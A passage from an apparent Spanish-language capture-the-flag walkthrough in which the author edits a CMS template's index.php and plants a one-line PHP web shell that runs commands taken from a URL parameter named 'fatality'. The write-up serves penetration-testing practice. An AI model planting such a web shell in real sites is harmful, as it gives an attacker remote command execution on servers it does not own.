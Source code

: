Si recordamos como era el Home vemos que es el mismo nombre de la pagina CASSIOPEIA

![[20250802165611.png]](candy-images/20250802165611.png)

Pulsamos en el enlace y nos redirige a una pagina con el nombre de los archivos php que corren por detras pulsamos en index.php y aparece el codigo fuente eel cual podemos modificar
![[20250802165810.png]](candy-images/20250802165810.png)

## PHP malicioso

En este espacio que muestro en la captura de pantalla vamos a escribir lo siguiente 

```bash
<?php system($_GET['fatality']); ?>	
```

Podéis cambiar `fatality` por `cmd` , `shadow` ... Podéis poner el nombre que queráis yo elijo fatality por el juego de mortal kombat donde el fatality representa el golpe final. ya que esto nos permitirá conseguir acceso a la maquina me parece optimo nombrarlo fatality 
